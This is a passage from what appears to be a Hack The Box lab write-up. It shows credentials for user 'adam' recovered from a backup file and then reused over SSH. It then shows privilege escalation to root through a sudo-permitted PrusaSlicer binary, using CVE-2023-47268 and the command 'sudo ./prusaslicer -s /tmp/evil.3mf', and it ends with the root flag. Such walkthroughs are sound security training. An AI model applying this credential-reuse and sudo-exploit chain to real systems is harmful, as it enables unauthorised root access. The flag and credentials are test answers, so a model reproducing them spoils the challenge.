

After transferring the backup zipped file, go inside **b4a8b52d-651b-44bc-bbc6-f9e8c6590103** and extract **txt.br** file with brotli, and inside the extracted txt file i found adam's credentials.


```SQL
'database_user' => 'adam' ,                                                        'database_password' => 'adam_admin992' 
```

Let's use them to ssh into machine as adam, and check his permissions.



This user can execute **prusaslicer** file as SUDO. Googling it i found that is vulnerbale to 
[#CVE-2023–47268](https://medium.com/@kimelmicah/prusaslicer-exploit-cve-2023-47268-5792f9e11357), for which you can find exploit here: [ExploitDB](https://www.exploit-db.com/exploits/51983) . A better version [PrusaSlicer Exploit](https://github.com/suce0155/prusaslicer_exploit), clone this repository on your kali machine and then pass on the HTB machine. Run the exploit trough **sudo ./prusaslicer -s /tmp/evil.3mf** 



And you gain the root shell:



```python
rootflag:e2c080517bfa23fd1710c6e1c5918f83
```

